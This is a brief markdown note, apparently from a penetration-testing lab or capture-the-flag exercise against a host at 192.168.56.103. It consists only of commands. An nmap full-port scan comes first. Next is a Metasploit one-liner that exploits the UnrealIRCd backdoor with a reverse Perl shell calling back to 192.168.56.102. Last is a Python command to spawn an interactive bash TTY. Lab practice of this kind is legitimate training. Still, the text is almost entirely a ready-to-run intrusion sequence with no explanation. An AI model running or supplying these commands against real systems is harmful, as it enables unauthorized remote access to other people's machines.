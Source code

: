 ## NMAP
```
nmap -T4 -sS -A -Pn -p- 192.168.56.103
```
## BackDoor
```
msfconsole -q -x "use exploit/unix/irc/unreal_ircd_3281_backdoor; set RHOSTS 192.168.56.103; set LHOST 192.168.56.102; set payload cmd/unix/reverse_perl; run"
```
## TTY
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

